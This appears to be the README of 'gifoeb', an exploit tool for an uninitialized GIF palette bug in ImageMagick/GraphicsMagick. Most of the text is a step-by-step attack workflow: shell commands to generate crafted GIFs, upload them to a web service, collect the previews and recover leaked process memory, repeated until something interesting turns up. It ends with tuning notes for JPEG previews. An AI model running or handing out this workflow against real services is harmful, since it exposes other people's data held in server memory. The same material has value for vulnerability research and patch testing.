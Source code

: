 ### Summary

ImageMagick/GraphicsMagick's gif parser leaves the palette uninitialized if neither global nor local palette is present. If IM/GM is used as a library loaded into a process that operates on interesting data, this data sometimes can be leaked via the uninitialized palette.

### How to use

1. Run `./gifoeb gen 512x512 dump.gif`. The script needs ImageMagick (default) or GraphicsMagick (use `--tool GM`) to generate the images.
2. Upload `dump.gif` somewhere. If the following conditions hold true
   1. A preview is generated
   2. It is preferably not a JPEG (see notes)
   3. It changes significantly from one upload to another

   then you're lucky.
3. Download and save the preview as `preview.ext`.
4. ```bash
   r=$(identify -format '%wx%h' preview.ext[0]) &&
   mkdir -p for_upload &&
   for i in `seq 1 10`; do
      ./gifoeb gen $r for_upload/$i.gif;
   done
   ```
5. Upload `for_upload/*.gif` to the webservice and download the previews.
6. ```bash
     for p in previews/*; do
       ./gifoeb recover $p | strings;
     done
   ```
7. Repeat 4-6 until you get something interesting or tired.

### Notes on JPEG previews

Unfortunately, conversion to JPEG corrupts the palette at the very first stage --- RGB->YCbCr conversion. All other stages almost don't cause information loss if the picture consists of 16x16 squares of one color and the JPEG conversion quality >= 75. You can still try `gifoeb recover` on JPEG images, but only ~60% bytes will be recovered accurately and others will be recovered with +-1 error. If the resolution of the preview is less than 256x256 then we can't fit all 256 squares and `gifoeb gen` will generate squares of smaller size, so the recover success rate will be even lower.

You can play with image generation and palette recovery alogirithms (see functions `gen_picture` and `recovery` in `gifoeb`). Test it `./gifoeb recover_test --format jpg`, like this:
```
$ ./gifoeb recover_test --format jpg 300x300
test completed, 0 not recovered, 228 wrong, 540 ok
```
